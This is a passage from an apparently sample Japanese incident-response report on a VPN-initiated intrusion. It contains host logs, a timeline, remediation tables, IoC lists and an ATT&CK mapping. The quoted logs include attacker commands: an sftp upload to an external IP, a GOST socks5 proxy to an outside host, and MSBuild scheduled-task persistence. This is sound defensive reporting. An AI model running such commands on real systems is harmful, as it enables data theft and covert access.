2025-05-11 01:44:31 JST FS01 EventID=4698
User=SAMPLE\Administrator
TaskName=\Microsoft\Windows\Update\UpdateCheck
Trigger=AtStartup
Action=MSBuild.exe C:\ProgramData\Microsoft\UIAnimation.xml

# E-117-02: FS01_tasks_20250601.csv
2025-06-01 10:18:42 JST FS01 ScheduledTask
TaskName=\Microsoft\Windows\Update\UpdateCheck
Trigger=AtStartup
Action=MSBuild.exe C:\ProgramData\Microsoft\UIAnimation.xml
Status=Ready
```

#### ファイル探索、アーカイブファイル名の痕跡、外部送信疑い

FS01では、2025年5月17日 20:05にD:\\Share配下を対象としたファイル一覧作成が確認されました。その後、2025年5月17日 20:42頃のMFT上にC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡が確認されました。ただし、当該RARファイル本体は取得できておらず、内容は確認できません。さらに、2025年5月18日 00:13以降にsftp.exeの実行および外部送信先への通信量増加が確認されました。

<div class="table-caption">表4-6 FS01におけるファイル探索・外部送信疑い</div>
| 時刻                               | 証拠  | 確認した事象                                                                      | 補足                                                                  |
| ---------------------------------- | ----- | --------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| 2025-05-17 20:05:12                | E-104 | cmd.exeによりD:\\Share配下のファイル一覧をfs01_dir_20250517.txtに出力   | dir /s により共有フォルダ配下を再帰的に列挙し、ファイル一覧を作成。 |
| 2025-05-17 20:42:55                | E-002 | MFT上にC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡を確認。ファイル本体は未取得 |                                                                       |
| 2025-05-18 00:13:27                | E-104 | sftp.exeの実行を確認                                                           | SFTPを用いて外部送信。                                                |
| 2025-05-17 22:10～2025-05-18 00:45 | E-110 | 外部送信先に対する送信量184,734,221bytesの通信を確認                             |                                                                       |

```{.log-block}
2025-05-17 20:05:12 JST FS01 EDR Process
Process="cmd.exe"
CommandLine="cmd.exe /c dir D:\Share /s /a > C:\ProgramData\Microsoft\fs01_dir_20250517.txt"

2025-05-17 20:42:55 JST FS01 MFT
Path="C:\ProgramData\Microsoft\collect_20250517.rar"
Artifact=FileNameTrace
FileRecovered=false
HashAvailable=false

2025-05-18 00:13:27 JST FS01 EDR Process
Process="sftp.exe"
CommandLine="sftp.exe -P 443 upload@45[.]77[.]183[.]161"

2025-05-18 00:13:31 JST FW Session
src=FS01 dst=45[.]77[.]183[.]161 dst_port=443 protocol=tcp bytes_out=184734221 bytes_in=2918442 session_count=28 action=allow
```

2025年6月1日のライブレスポンスでは、TCP47000番の待受および関連するFirewallルールを確認しました。

```{.log-block}
# E-117-01: FS01_netstat_20250601.txt
2025-06-01 10:18:42 JST FS01 netstat
TCP 0.0.0.0:47000 0.0.0.0:0 LISTENING PID=4128

# E-117-03: FS01_firewall_rules_20250601.txt
2025-06-01 10:18:42 JST FS01 Windows Firewall
RuleName="Update Service"
LocalPort=47000
Protocol=TCP
Action=Allow
Enabled=True
```

MFT上のC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡と外部通信の時刻が近接しているため、何らかのアーカイブファイルまたは関連ファイルが外部へ送信された可能性があります。ただし、当該RARファイル本体は取得できておらず、通信内容も暗号化されているため、送信ファイル名、送信内容は確認できません。


### 4.4 管理サーバーAVMGMT01{#sec-4-4}

AVMGMT01では、NOOPLDR.dllの配置、Defenderリアルタイム保護の停止、サービスまたはタスクを用いた永続化、外部IPアドレス207[.]148[.]90[.]45へのTCP443通信が確認されました。

<div class="table-caption">表4-7 AVMGMT01で確認した事象</div>
| 時刻                               | 証拠                             | 確認した事象                                             |
| ---------------------------------- | -------------------------------- | -------------------------------------------------------- |
| 2025-05-12 23:10                   | E-104、E-113                     | アカウントSAMPLE\\AdministratorによるAVMGMT01ログオン        |
| 2025-05-12 23:10                   | E-104、E-106、E-116-01～E-116-03 | C:\\Windows\\System32\\NOOPLDR.dllの配置を確認           |
| 2025-05-12 23:14                   | E-116-01～E-116-03               | HKCU\\Software\\Microsoft\\COM3\\B72A90への書き込みを確認 |
| 2025-05-12 23:18                   | E-113                            | Defenderリアルタイム保護停止を確認                       |
| 2025-05-12 23:20～2025-05-15 04:10 | E-104、E-110                     | 207[.]148[.]90[.]45へのTCP/443通信を確認              |

AVMGMT01では、表4-7の事象に対応する以下のログおよびアーティファクトを確認しました。

```{.log-block}
# E-104: edr_process_network_20250501-20250603.csv
2025-05-12 23:10:06 JST AVMGMT01 EDR File
Path="C:\Windows\System32\NOOPLDR.dll"
Actor=SAMPLE\Administrator
Action=CreateFile

# E-116-01: AVMGMT01_registry_export.reg
2025-05-12 23:14:38 JST AVMGMT01 Registry
Key="HKCU\Software\Microsoft\COM3\B72A90"
Action=SetValue

# E-113: AVMGMT01_Security_System_Defender_20250501-20250603.evtx
2025-05-12 23:18:20 JST AVMGMT01 EventID=5001
Message="Windows Defender real-time protection was disabled"

# E-104: edr_process_network_20250501-20250603.csv
2025-05-12 23:20:41 JST AVMGMT01 EDR Network
Process="svchost.exe"
dst=207[.]148[.]90[.]45 dst_port=443 protocol=tcp

# E-110: fw_session_20250501-20250602.log
2025-05-12 23:20:43 JST FW Session
src=AVMGMT01 dst=207[.]148[.]90[.]45 dst_port=443 protocol=tcp bytes_out=12845770 bytes_in=9341220 action=allow
```

### 4.5 公開サーバーWEB01{#sec-4-5}

WEB01では、/tmp/.cache/gostにGOST類似バイナリが配置され、外部IPアドレス207[.]148[.]103[.]42への通信が確認されました。一方で、WEB01はディスク保全が限定的であり、bash_historyにも削除痕跡があるため、確認できた範囲には制約があります。

<div class="table-caption">表4-8 WEB01で確認した事象</div>
| 時刻                 | 証拠         | 確認した事象                                  |
| -------------------- | ------------ | --------------------------------------------- |
| 2025-05-14 22:31     | E-107、E-114-01～E-114-03 | /tmp/.cache/gostの作成および実行痕跡を確認 |
| 2025-05-14 22:31以降 | E-110、E-114-01～E-114-03 | 207[.]148[.]103[.]42:443への通信を確認           |
| 2025-05-14 22:40頃   | E-114-01～E-114-03        | bash_historyの削除痕跡を確認                  |

WEB01のLinuxログおよびFWログでは、表4-8の事象に対応する以下の痕跡を確認しました。

```{.log-block}
# E-114-03: WEB01_bash_history.recovered
2025-05-14 22:31:04 JST WEB01 bash_history.recovered
chmod +x /tmp/.cache/gost
/tmp/.cache/gost -L :8080 -F socks5://207[.]148[.]103[.]42:443

# E-110: fw_session_20250501-20250602.log
2025-05-14 22:31:09 JST FW Session
src=WEB01 dst=207[.]148[.]103[.]42 dst_port=443 protocol=tcp bytes_out=4351902 bytes_in=2183440 action=allow

# E-114-02: WEB01_syslog
2025-05-14 22:40:17 JST WEB01 syslog
user command history file truncated
```

### 4.6CLIENT-001{#sec-4-6}

CLIENT-001では、2025年5月13日にアカウントSAMPLE\\Administratorによるログオン、UIAnimation.xmlの一時配置、およびMSBUILD.EXEの実行痕跡が確認されました。

<div class="table-caption">表4-9 CLIENT-001で確認した事象</div>
| 時刻                    | 証拠                | 確認した事象                                               |
| ----------------------- | ------------------- | ---------------------------------------------------------- |
| 2025-05-13 00:01        | E-003、E-104        | アカウントSAMPLE\\Administratorによるログオン                      |
| 2025-05-13 00:01～00:02 | E-003               | C:\\ProgramData\\Microsoft\\UIAnimation.xmlのMFT痕跡を確認 |
| 2025-05-13 00:02        | E-003               | MSBUILD.EXEの実行痕跡を確認                                  |
| 2025-05-13 00:02        | E-003               | HKCU\\Software\\Licenses\\4F2C91の痕跡を確認               |

CLIENT-001で確認した主な痕跡は以下のとおりです。

```{.log-block}
# E-003: CLIENT-001_20250603.E01
2025-05-13 00:01:12 JST CLIENT-001 Security
User=SAMPLE\Administrator LogonType=3 Source=AD01

# E-003: CLIENT-001_20250603.E01
2025-05-13 00:02:03 JST CLIENT-001 MFT
Path="C:\ProgramData\Microsoft\UIAnimation.xml"
Action=FileCreate

# E-003: CLIENT-001_20250603.E01
2025-05-13 00:02:17 JST CLIENT-001 Prefetch
Executable="MSBUILD.EXE"
LastRun=2025-05-13 00:02:17 JST

# E-003: CLIENT-001_20250603.E01
2025-05-13 00:02:29 JST CLIENT-001 Registry
Key="HKCU\Software\Licenses\4F2C91"
Action=SetValue
```

### 4.7 詳細インシデント概要図・タイムライン {#sec-4-7}

本節では、2章のエグゼクティブサマリーで示した主要事象の背景として、詳細なインシデント概要図とタイムラインを記載します。



<div class="figure-caption">図4-1 詳細インシデント概要図</div>

::: {.overview-legend-table}

<div class="table-caption">表4-10 詳細インシデント概要図の凡例</div>
| 色  | 意味                   | 主な内容                                                                       |
| --- | ---------------------- | ------------------------------------------------------------------------------ |
| 青  | 初期侵入               | 外部攻撃者からVPN装置への接続、VPN経由でのADサーバー到達                       |
| 紫  | 認証情報取得           | ADサーバー上でのシャドウコピー作成、ファイルNTDS.ditおよびレジストリハイブ取得試行  |
| 黄  | 内部展開               | SMB経由のファイル配置、MSBuild実行、スケジュールタスク登録、プロキシツール配置 |
| 赤  | 外部通信・持ち出し疑い | SFTP/HTTPSによる外部通信、C2通信疑い、プロキシ通信疑い                         |
| 灰  | 対象システム           | 調査対象となる機器および外部送信先                                             |

:::

<div class="table-caption">表4-11 詳細インシデントタイムライン</div>
| 日時             | 攻撃者または事象                                                            | 対象           | 証拠                             |
| ---------------- | --------------------------------------------------------------------------- | -------------- | -------------------------------- |
| 2025-05-10 02:14 | 外部IPアドレス89[.]233[.]109[.]69からVPN装置へ接続                                    |vpn-tokyo-01| E-101                            |
| 2025-05-10 03:02 | アカウントSAMPLE\\AdministratorによるAD01ログオン                               |AD01        | E-102                            |
| 2025-05-10 03:18 | vssadmin create shadow 実行                                               |AD01        | E-104                            |
| 2025-05-10 03:25 | Active DirectoryデータベースファイルNTDS.dit、レジストリハイブファイルSYSTEM、SAM、SECURITYのコピー試行                        |AD01        | E-001、E-104、E-118-01～E-118-03 |
| 2025-05-11 01:40 | UIAnimation.xmlをSMB経由でコピー                                         |FS01        | E-103、イベントID 5145           |
| 2025-05-11 01:44 | schtasksによるMSBuild実行タスク登録                                  |FS01        | E-103、E-117-01～E-117-03        |
| 2025-05-12 23:10 | NOOPLDR.dllをAVMGMT01に配置                                          |AVMGMT01    | E-104、E-113、E-116-01～E-116-03 |
| 2025-05-14 22:31 | gost 実行                                                                 |WEB01       | E-107、E-110、E-114-01～E-114-03 |
| 2025-05-17 20:05 | dir /s によるファイル一覧作成                                             |FS01        | E-104、E-115-01～E-115-04        |
| 2025-05-17 20:42 | C:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡を確認。ファイル本体は未取得 |FS01        | E-002                            |
| 2025-05-18 00:13 | sftp.exeによる外部通信                                                   |FS01        | E-104、E-110                     |
| 2025-06-01 09:12 | EDRが外部通信を検知                                                         |FS01        | E-104                            |

## 5. 対応状況・推奨対策 {#sec-5}

```{.note-block}
システムの復旧などは、被害組織の現状把握、システム・業務理解等が必要になるため、インシデント調査の内容だけでは記載できないことがあります。
本章の記載を求められた場合は、十分なヒアリングを実施したうえで提示するようにしてください。
```

本章では、インシデントを終息させるための施策、復旧のための施策、再発防止策を分けて記載します。2.3節では本章の要約を記載しており、本章では実施状況と補足説明を記載します。

### 5.1 封じ込め・復旧 {#sec-5-1}

インシデント封じ込めおよび復旧のために、以下の項目の実施をお願いします。
優先度は対応順序の目安です。本調査では技術的な影響を中心に確認しており、各施策が業務へ与える影響やシステム依存関係のすべてを確認したものではありません。特に、全認証情報のリセット、サーバー再構築、ネットワーク隔離は、サービス停止や連携機能の停止を招く可能性があるため、実施可否および手順を協議してください。

::: {.containment-table}

<div class="table-caption">表5-1 封じ込め・復旧対応</div>
| 優先度 | 対応事項 | 対応する調査結果 | 詳細 |
| ------ | -------- | ---------------- | ---- |
| 高     | vpn-tokyo-01のファームウェア更新、設定確認、管理画面のアクセス制限 | 3.1、4.1 | 初期侵入経路として疑われるため、ファームウェアを最新版に更新し、管理画面のインターネット公開を停止または制限します。不要アカウントの有無も確認します。 |
| 高     | FS01、AVMGMT01、WEB01、CLIENT-001のネットワーク隔離または利用停止 | 3.3、3.4、3.5、3.7、4.3、4.4、4.5、4.6 | マルウェアまたは不審ツールの配置が確認された、または疑われる対象は、他システムへの影響を考慮し、ネットワーク隔離または利用停止を実施します。 |
| 高     | IoC通信先のFW遮断 | 3.5、3.6、4.3、4.4、4.5 | 本件で確認されたIPアドレスとの通信をネットワークで遮断します。また、同様の通信が発生していないかを引き続き監視します。 |
| 高     | 侵害アカウントの無効化・パスワードリセット | 3.2、4.2、4.3、4.4、4.6 | ADサーバーのアカウント情報が漏えいしている可能性があります。再構築までの間の対策として、アカウントSAMPLE\\Administrator、SAMPLE\\svc-backup、SAMPLE\\svc-avを含むWindowsネットワークの認証情報をリセットします。サービスアカウントの認証情報を変更すると、関連サービスやバッチ処理が停止する可能性があるため、対象と依存関係を確認し、段階的な実施計画を策定します。※1 |
| 高     | 類似マルウェアの有無を確認 | 3.4、3.5、3.7、4.3、4.4、4.5、4.6 | 今回確認されたマルウェアと同様の特徴を持つマルウェアが他のシステムに存在しないかを確認します。本マルウェアはウイルス対策ソフトやEDRで検知できない可能性があるため、ファイルパス、レジストリ、タスク、通信先、ハッシュ値などを組み合わせて確認する必要があります。 |
| 高     | MirrorFace関連IoCの追加検索 | 3.3、3.4、3.5、3.6、3.7 | 付録A.2に記載したMirrorFace関連の通信先およびマルウェアハッシュ値を用いて、EDR、FW、Proxy、DNS、VPN、メール、ファイルサーバー、端末のログを横断的に検索します。該当が確認された場合は、通信遮断、対象端末の隔離、追加保全を実施します。 |
| 中     | AD01、FS01、AVMGMT01、WEB01の再構築 | 3.2、3.3、3.4、3.5、3.7、4.2、4.3、4.4、4.5 | マルウェアまたは不審ツールが設置されていたサーバーは、その他のマルウェアが残存するリスクがあるため、再構築を推奨します。再構築前に必要な証拠保全を完了し、バックアップの健全性、復旧順序、関連システムへの影響を確認したうえで実施します。 |
| 中     | CLIENT-001の再インストール | 4.6 |UIAnimation.xmlの配置および SBUILD.EXEの実行痕跡が確認されているため、クリーンインストールを実施します。 |
| 低     | 持ち出し可能性がある情報の継続監視 | 3.6、4.3 | 現時点でリークサイト等への掲載は確認していませんが、外部送信疑いがあるため、ダークウェブ等での継続監視を実施します。 |

:::

※1 Microsoftでは、ドメイン侵害時にパスワードを連続して2回リセットすることを推奨しています。参照: [Microsoft インシデント対応チームのランサムウェアアプローチとベスト プラクティス](https://learn.microsoft.com/ja-jp/security/ransomware/incident-response-playbook-dart-ransomware-approach#microsoft-incident-response-recommendations-and-best-practices)

<div class="table-caption">表5-2 優先度の判断基準</div>
| 優先度 | 判断基準 |
| ------ | -------- |
| 高 | 攻撃の継続、再侵入、被害拡大を防ぐために直ちに実施すべき事項 |
| 中 | 短期的に計画・実施し、検知・監視・復旧・再発防止能力を高めるべき事項 |
| 低 | 継続的または計画的に実施し、残存リスクの低減やセキュリティ成熟度向上につなげる事項 |

### 5.2 再発防止策 {#sec-5-2}

```{.note-block}
再発防止策に関しては、対策の提言やそれに資する情報を記載します。
どの調査結果に対応する対策案なのか明記してください。
```

インシデント再発防止として以下の対策の実施をご検討ください。

<div class="table-caption">表5-3 再発防止策</div>
| 優先度 | 再発防止策 | 対応する調査結果 | 対策提言・対策に資する情報 |
| ------ | ---------- | ---------------- | -------------------------- |
| 高 | VPN装置のパッチ管理プロセス整備 | 3.1、4.1 | vpn-tokyo-01は初期侵入経路として疑われるVPN装置です。調査時点でファームウェアが最新版ではなく、管理画面がインターネットから到達可能な設定であることを確認しました。VPN機器について、対象機器、ファームウェアバージョン、適用期限、例外承認の有無を管理し、重要度の高い脆弱性が公表された場合は速やかに更新または緩和策を適用してください。 |
| 高 | VPNアカウントおよび特権アカウントへのMFA適用 | 3.1、3.2、4.1、4.2 | 認証情報が悪用された場合の被害を低減するため、VPNアカウントおよび特権アカウントにMFAを適用してください。特権アカウントについては、必要に応じてPAMの導入も検討してください。 |
| 高 | Domain Admins 常用禁止および管理権限の最小化 | 3.2、3.3、4.2、4.3 | 特権アカウントの定常利用は、侵害発生時に攻撃者による認証情報窃取や横展開の影響範囲を広げることにつながるため、必要最小限の権限で運用すべきです。特権アカウントの利用を禁止し、用途別の最小権限アカウントを作成・利用する運用に移行してください。 |
| 高 | Windows監査ポリシーおよびセキュリティ関連ログの有効化 | 3.2、3.3、3.7、4.2、4.3 | 監査ポリシーが十分に有効化されていなかったため、プロセス実行、コマンドライン、ログオン失敗、特権利用などはWindowsセキュリティログでは確認できませんでした。FS01ではファイル共有監査によりイベントID 5145が記録され、SMB管理共有経由のファイル配置確認に有用でした。ADサーバーおよび重要サーバーでは、ログオン成功・失敗、プロセス実行、コマンドライン、特権利用、タスク登録、ファイル共有アクセスなどを記録できるようにしてください。※2 |
| 高 | 外部公開資産の把握と脆弱性管理 | 3.1、4.1、4.5 | MirrorFaceは外部公開資産の脆弱性悪用による侵入も使用しています。VPN装置に加え、公開Webサーバーなど外部公開資産を棚卸しし、バージョン、脆弱性、管理画面の公開有無、アクセス制限、不要サービスの有無を継続的に確認してください。 |
| 中 | MirrorFaceのTTPにもとづく検知ルール整備 | 3.3、3.4、3.5、3.6、3.7、4.3、4.4、4.5 | 本件では、MSBuild悪用、スケジュールタスク登録、SMB管理共有経由のファイル配置、タイムスタンプ改ざん、Defender停止、GOST類似プロキシ利用、SFTPによる外部送信疑いなどが確認されました。IoCのみでは早期検知が難しい場合があるため、これらのTTPをもとに、MSBuild.exeによる不審XML実行、イベントID 4698の不審タスク登録、イベントID 5145のSMB管理共有経由のファイル配置、イベントID 5001のDefender停止、Windows FirewallイベントID 2004のルール追加、GOST等のプロキシツール実行、不審なSFTP通信などを監視してください。 |
| 中 | VPNログ設定 | 3.1、3.2、3.7、4.1、4.2 | VPN装置のログローテーションにより2025-05-01 00:00以前のログおよび当該時刻前後のクラッシュログを確認できず、侵入原因を断定できませんでした。インシデント発生時の追跡性を確保するため、VPN認証・接続ログ、管理操作ログ、クラッシュログを1年程度保存してください。あわせて、集中ログ基盤へ転送して、端末上のログローテーションや設定差異に左右されずに調査できるようにしてください。 |
| 低 | 重要サーバーの再構築手順・復旧訓練 | - | 本件では、複数のシステムに侵害または侵害疑いが確認されました。ランサムウェアなどによってシステムが暗号化される被害が発生した場合は、より多くのシステムの復旧作業が必要になるため、重要システムのバックアップ、再構築手順、復旧手順の作成および定期訓練を実施してください。 |

※2 Windows監査ポリシーの有効化方法については、JPCERT/CCで公開している[「ログを活用したActive Directoryに対する攻撃の検知と対策」](https://www.jpcert.or.jp/research/AD_report_20170314.pdf)をご覧ください。

<div class="table-caption">表5-4 優先度の判断基準</div>
| 優先度 | 判断基準 |
| ------ | -------- |
| 高 | 攻撃の継続、再侵入、被害拡大を防ぐために直ちに実施すべき事項 |
| 中 | 短期的に計画・実施し、検知・監視・復旧・再発防止能力を高めるべき事項 |
| 低 | 継続的または計画的に実施し、残存リスクの低減やセキュリティ成熟度向上につなげる事項 |

## 付録A. IoC一覧 {#appendix-a}

```{.note-block}
IoCをセキュリティ製品の設定や調査に活用しやすいように、コピー＆ペーストしやすいテキストやCSV、Excelなどの別資料として提出することも検討してください。
```

### 付録A.1 本調査で確認したIoC

::: {.ioc-table}

<div class="table-caption">表A-1 IoC一覧</div>
| 種別 | 値 | 概要 |
| ---- | -- | ---- |
| IPアドレス | 89[.]233[.]109[.]69 | vpn-tokyo-01への不審なSSL-VPN接続元IPアドレス |
| IPアドレス | 45[.]77[.]183[.]161 | FS01からの外部通信先。情報持ち出し疑いの通信先 |
| IPアドレス | 207[.]148[.]90[.]45 | AVMGMT01からのC2疑い通信先 |
| IPアドレス | 207[.]148[.]103[.]42 | WEB01からのGOST類似プロキシ通信先 |
| File | C:\\ProgramData\\Microsoft\\UIAnimation.xml | FS01およびCLIENT-001で確認されたMSBuild実行対象ファイル。NOOPDOOR類似マルウェア |
| File | C:\\Windows\\System32\\NOOPLDR.dll | AVMGMT01で確認されたDLLファイル。NOOPDOOR類似マルウェア |
| File | /tmp/.cache/gost | WEB01で確認されたGOST類似プロキシツール |
| Registry | HKLM\\Software\\License\\7A3F19 | FS01で確認されたマルウェア関連の暗号化データ保存先 |
| Registry | HKCU\\Software\\Microsoft\\COM3\\B72A90 | AVMGMT01で確認されたマルウェア関連の暗号化データ保存先 |
| Task | Microsoft\\Windows\\Update\\UpdateCheck | FS01で確認されたスケジュールタスク。UIAnimation.xmlをシステム起動時に再実行 |
| SHA256 | 93af6afb47f4c42bc0da3eedc6ecb9054134f4a47ef0add0d285404984011072 | UIAnimation.xmlのSHA-256ハッシュ値 |
| SHA256 | 7a7e7e0d817042e54129697947dfb423b607692f4457163b5c62ffea69a8108d | NOOPLDR.dllのSHA-256ハッシュ値 |
| SHA256 | 3f2e1d0c9b8a7f6e5d4c3b2a1908172635445362718090a1b2c3d4e5f6071829 | gostのSHA-256ハッシュ値 |

:::


### 付録A.2 MirrorFace関連の追加確認対象IoC

::: {.ioc-table}

<div class="table-caption">表A-2 MirrorFace関連の追加確認対象IoC</div>
| 種別 | 値 | 概要 |
| ---- | -- | ---- |
| IPアドレス | 45[.]66[.]217[.]106 | MirrorFace関連通信先 |
| IPアドレス | 45[.]77[.]12[.]212 | MirrorFace関連通信先 |
| IPアドレス | 108[.]160[.]130[.]45 | MirrorFace関連通信先 |
| IPアドレス | 207[.]148[.]97[.]235 | MirrorFace関連通信先 |
| IPアドレス | 95[.]85[.]91[.]15 | MirrorFace関連通信先 |
| IPアドレス | 64[.]176[.]214[.]51 | MirrorFace関連通信先 |
| IPアドレス | 168[.]100[.]8[.]103 | MirrorFace関連通信先 |
| IPアドレス | 45[.]76[.]222[.]130 | MirrorFace関連通信先 |
| IPv6アドレス | 2a12:a300:3600::31b5:2e02 | MirrorFace関連通信先 |
| IPv6アドレス | 2001:19f0:7001:2ae2:5400:4ff:fe0a:5566 | MirrorFace関連通信先 |
| IPv6アドレス | 2400:8902::f03c:93ff:fe8a:5327 | MirrorFace関連通信先 |
| IPv6アドレス | 2a12:a300:3700::5d9f:b451 | MirrorFace関連通信先 |
| SHA256 | bcd34d436cbac235b56ee5b7273baed62bf385ee13721c7fdcfc00af9ed63997 | NOOPLDR Type1関連ハッシュ |
| SHA256 | 43349c97b59d8ba8e1147f911797220b1b7b87609fe4aaa7f1dbacc2c27b361d | NOOPLDR Type1関連ハッシュ |
| SHA256 | 4f932d6e21fdd0072aba61203c7319693e490adbd9e93a49b0fe870d4d0aed71 | NOOPLDR Type1関連ハッシュ |
| SHA256 | 0d59734bdb0e6f4fe6a44312a2d55145e98b00f75a148394b2e4b86436c32f4c | NOOPLDR Type1関連ハッシュ |
| SHA256 | 9590646b32fec3aafd6c648f69ca9857fb4be2adfabf3bcaf321c8cd25ba7b83 | NOOPLDR Type1関連ハッシュ |
| SHA256 | 572f6b98cc133b2d0c8a4fd8ff9d14ae36cdaa119086a5d56079354e49d2a7ce | NOOPLDR Type1関連ハッシュ |
| SHA256 | 5e7cd0461817b390cf05a7c874e017e9f44eef41e053da99b479a4dfa3a04512 | NOOPLDR Type2関連ハッシュ |
| SHA256 | b07c7dfb3617cd40edc1ab309a68489a3aa4aa1e8fd486d047c155c952dc509e | NOOPLDR Type2関連ハッシュ |

:::

## 付録B. 侵害された・侵害疑いのあるアカウント・端末一覧 {#appendix-b}

```{.note-block}
影響範囲を把握しやすいように、侵害された、または侵害が疑われるアカウントおよび端末を一覧化します。
確認済みの侵害と侵害疑いは区別して記載します。
```

::: {.account-table}

<div class="table-caption">表B-1 侵害された・侵害疑いのあるアカウント一覧</div>
| アカウント | 状態 | 確認した内容 | 証拠 | 推奨対応 |
| ---------- | ---- | ------------ | ---- | -------- |
| SAMPLE\\Administrator | 侵害疑い | AD01、FS01、AVMGMT01、CLIENT-001へのログオン、SMBコピー、タスク登録を確認 | E-102、E-103、E-104 | 無効化またはパスワードリセット、利用状況確認 |
| SAMPLE\\svc-backup | 侵害疑い | 外部IPアドレス89[.]233[.]109[.]69からのSSL-VPN接続に使用 | E-101、E-102 | 無効化またはパスワードリセット、VPN利用履歴確認 |
| SAMPLE\\svc-av | 侵害疑い | AVMGMT01上での管理操作、サービス停止に使用された可能性 | E-104、E-113 | 無効化またはパスワードリセット、権限見直し |

:::

::: {.compromised-host-table}

<div class="table-caption">表B-2 侵害された・侵害疑いのある端末一覧</div>
| 端末・サーバー | 状態 | 確認した内容 | 証拠 | 推奨対応 |
| -------------- | ---- | ------------ | ---- | -------- |
| vpn-tokyo-01 | 侵害疑い | 不審なSSL-VPN接続を確認。ファームウェア旧版、MFA未適用を確認 | E-101、表1-1 | ファームウェア更新、設定確認、管理画面のアクセス制限 |
| AD01 | 侵害疑い | 特権アカウントによるログオン、認証情報取得を目的とした操作を確認 | E-001、E-102、E-104、E-118-01～E-118-03 | 再構築、認証情報リセット、監査ポリシー見直し |
| AD02 | 侵害疑い | 特権アカウントによるログオンおよびLDAP列挙と整合する操作を確認 | E-112、E-104 | 追加調査、認証情報リセット、ログ確認 |
| FS01 | 侵害確認 | UIAnimation.xmlの配置・実行、スケジュールタスク登録、外部送信疑いを確認 | E-002、E-103、E-104、E-110、E-115-01～E-115-04、E-117-01～E-117-03 | ネットワーク隔離、再構築、情報持ち出しに関する追加調査 |
| AVMGMT01 | 侵害確認 | NOOPLDR.dll配置、Defender停止、C2疑い通信を確認 | E-104、E-106、E-110、E-113、E-116-01～E-116-03 | ネットワーク隔離、再構築、類似マルウェア確認 |
| WEB01 | 侵害疑い | GOST類似プロキシツールの配置・実行痕跡、外部通信を確認 | E-107、E-110、E-114-01～E-114-03 | ネットワーク隔離、再構築または詳細調査 |
| CLIENT-001 | 侵害疑い | UIAnimation.xmlの一時配置、 MSBUILD.EXE の実行痕跡を確認 | E-003、E-104 | 再インストール、利用者アカウント確認 |

:::

## 付録C. MITRE ATT&CK対応表 {#appendix-c}

```{.note-block}
MITRE ATT&CK対応表に関しては、被害組織によっては利用が難しい情報の場合もあるため、必須ではありません。
```

<div class="table-caption">表C-1 MITRE ATT&CK対応表</div>
| 戦術                | ID        | テクニック                                           | 本件で確認した内容                                                                                 | 本文参照 |
| ------------------- | --------- | ---------------------------------------------------- | -------------------------------------------------------------------------------------------------- | -------- |
| Initial Access      | T1133     | External Remote Services                             | VPN装置を経由した侵入疑い                                                                          | 3.1、4.1 |
| Execution           | T1127.001 | Trusted Developer Utilities Proxy Execution: MSBuild | MSBuild.exeによるUIAnimation.xml実行                                                        | 3.4、4.3 |
| Persistence         | T1053.005 | Scheduled Task                                       | UpdateCheckタスク登録                                                                           | 3.4、4.3 |
| Persistence         | T1543.003 | Windows Service                                      | UpdateCheckSvc登録疑い                                                                          | 3.7      |
| Defense Evasion     | T1055     | Process Injection                                    | svchost.exeへのインジェクション疑い                                                             | 3.4、4.3 |
| Defense Evasion     | T1070.006 | Timestomp                                            | UIAnimation.xmlの作成日時改ざん                                                                 | 3.7、4.3 |
| Defense Evasion     | T1562.001 | Disable or Modify Tools                              | Defender停止                                                                                       | 3.7、4.4 |
| Credential Access   | T1003     | OS Credential Dumping                                | ファイルNTDS.ditおよびレジストリハイブの取得試行                                               | 3.2、4.2 |
| Discovery           | T1083     | File and Directory Discovery                         | dir /s によるファイル一覧取得                                                                    | 3.6、4.3 |
| Discovery           | T1087     | Account Discovery                                    | net user /domain 、 setspn実行                                                                  | 3.3、4.2 |
| Lateral Movement    | T1021.002 | SMB/Windows Admin Shares                             | 管理共有経由でファイル配置                                                                         | 3.3、4.3 |
| Collection          | T1560.001 | Archive via Utility                                  | C:\\ProgramData\\Microsoft\\collect_20250517.rar というファイル名の痕跡を確認。ファイル本体は未取得 | 3.6、4.3 |
| Collection          | T1039     | Data from Network Shared Drive                       | D:\\Share配下のファイルを列挙                                                                  | 3.6、4.3 |
| Command and Control | T1090     | Proxy                                                | GOST類似プロキシ利用                                                                               | 3.5、4.5 |

## 付録D. 関連ファイル・別紙一覧 {#appendix-d}

<div class="table-caption">表D-1 関連ファイル・別紙一覧</div>
| ファイル名                        | 内容                                                    |
| --------------------------------- | ------------------------------------------------------- |
| 別紙1_対象端末詳細調査結果.pdf  | AD01、AD02、FS01、AVMGMT01、WEB01、CLIENT-001の詳細調査結果および調査再現性確認記録 |
| 別紙2_IoC検索結果.xlsx          | 全社EDR・FW・Proxyログに対するIoC検索結果、外部脅威情報の照会結果、照会日および参照情報 |
| 別紙3_マルウェア分析メモ.pdf    | UIAnimation.xml、NOOPLDR.dll、gostの分析結果     |
| 別紙4_IoC一覧.csv                 | 本調査で確認したIoCをコピー・インポートしやすい形式で整理 |
| 別紙5_影響データ範囲確認用一覧.xlsx | fs01_dir_20250517.txtをもとに、D:\\Share配下で列挙されたファイルを整理 |

## 付録E. 証拠保全記録 {#appendix-e}

```{.note-block}
証拠保全作業は、特定非営利活動法人デジタル・フォレンジック研究会が公開する[「証拠保全ガイドライン」](https://digitalforensic.jp/home/act/products/df-guideline-10th/)を参考に、対象機器の識別情報、複製開始・終了日時、作業場所、使用機器、ハッシュ値等を記録することを推奨します。

また、必要に応じて、対象機器外観、製造番号、接続状態、複製作業画面、ハッシュ計算結果等の写真・画面キャプチャを掲載します。
```

本付録では、ディスクフォレンジック対象機器の保全情報を記載します。

<div class="table-caption">表E-1 分析機器情報</div>
| ホスト名     | メーカー名・モデル | 製造番号            |
| ------------ | ------------------ | ------------------- |
| AD01       | Server Model 1     | DL-AD01-5K8X2P3   |
| FS01       | Server Model 2     | DL-FS01-3Z6M8L2   |
| CLIENT-001 | Client Model 1     | PF-CLIENT001-9H2K |

<div class="table-caption">表E-2 保全情報</div>
| 対象         | 証拠ID | 複製開始日時（JST） | 複製終了日時（JST） | 作業場所                                  | 使用機器        | SHA-256                                                            |
| ------------ | ------ | ------------------- | ------------------- | ----------------------------------------- | --------------- | ------------------------------------------------------------------ |
